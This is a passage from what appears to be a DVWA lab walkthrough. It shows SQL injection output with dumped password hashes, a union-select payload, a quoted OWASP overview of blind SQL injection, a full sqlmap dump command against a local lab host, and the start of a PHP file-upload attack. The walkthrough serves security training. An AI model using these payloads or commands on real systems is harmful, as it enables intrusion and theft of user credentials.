 ```

First name: pablo

Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' union select user, password from users-- 

First name: smithy

Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

On medium security, the injection query only differs in using an integer instead of a quote: `99 or 1=1— `.

### SQL Injection (Blind)

[**Overview**](https://www.owasp.org/index.php/Blind_SQL_Injection)

> Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response. This attack is often used when the web application is configured to show generic error messages, but has not mitigated the code that is vulnerable to SQL injection.
> 
> When an attacker exploits SQL injection, sometimes the web application displays error messages from the database complaining that the SQL Query’s syntax is incorrect. Blind SQL injection is nearly identical to normal SQL Injection, the only difference being the way the data is retrieved from the database. When the database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions. This makes exploiting the SQL Injection vulnerability more difficult, but not impossible.

Since this is more or less identical to the previous SQL injection, I will instead use sqlmap against it, so I don’t have to repeat the same queries:

```
sqlmap -u "http://192.168.127.128/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=cd855d2bfb73dfe22ef2f11a475fa9e6" --dbms=MySQL --dump
```

### Upload

[**Overview**](https://www.owasp.org/index.php/Unrestricted_File_Upload)

> Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.
> 
> The consequences of unrestricted file upload can vary, including complete system takeover, an overloaded file system or database, forwarding attacks to back-end systems, and simple defacement. It depends on what the application does with the uploaded file and especially where it is stored.

![upload](https://chousensha.github.io/images/dvwa/upload.png "file upload")

I am going to upload a PHP file that runs the command *uname -a*:
